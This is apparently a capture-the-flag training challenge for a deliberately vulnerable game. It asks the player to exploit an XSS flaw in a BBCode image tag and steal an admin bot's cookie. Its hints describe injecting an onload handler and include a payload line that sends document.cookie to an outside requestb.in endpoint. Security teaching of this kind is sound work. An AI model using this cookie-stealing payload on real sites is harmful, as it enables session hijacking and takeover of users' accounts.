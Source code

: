 # XSS/CSRF Challenge 4

----------------------

Hey friend,

I have a new concern I'm hoping you can help me with.

I had a user recently complain to me that his account got hacked. Apparently the hacker found something in my BBCode parser he was able to exploit to do an XSS attack and steal this user's cookie, then login as him.

Can you see if you can duplicate that attack?

Just like the previous challenge, I have a phantomjs bot setup that will log in as my admin account and visit all user profiles in the game. To trigger it, just go to Trigger Admin Browser in the navigation. See if you can steal that account's cookies!

Thanks!

-Breakthenet Game Owner

----------------------

Stuck? 
----------------------
<details> 
  <summary>Click for hint 1</summary>
   BBCode allows you to embed an image like so: [img]http://url.com/image.jpg[/img]
   
   Play around with that.
</details>

<details> 
  <summary>Click for hint 2</summary>
   Try breaking the BBCode image tag by inserting other characters (besides the url) inside of it. Use chrome inspector or view-source on "My Profile" to see what your BBCode input looks like when it's translated into html.
</details>

<details> 
  <summary>Click for hint 3</summary>
   http://requestb.in/ is a neat site for testing webhooks. Cookie stealing is kind of like a webhook. If you were somehow able to get javascript execution, you could potentially change the SRC of the image to something like this:
   
   http://requestb.in/1fj9x6o1?c='+document.cookie
   
   And then review the cookie (passed as a GET parameter) on requestb.in!
</details>

<details> 
  <summary>Click for hint 4</summary>
   Did you know you can execute javascript when an image loads? It's simple! All you have to do is use the onLoad attribute, like so:
   
   &lt;img src="logo.png" onload="alert(1)"&gt;
</details>

<details> 
  <summary>Click for hint 5</summary>
   While you can edit cookies with plain javascript, you can also cheat and use a browser extension like [this one](https://chrome.google.com/webstore/detail/editthiscookie/fngmhnnpilhplaeedifhccceomclgfbg?hl=en).
</details>




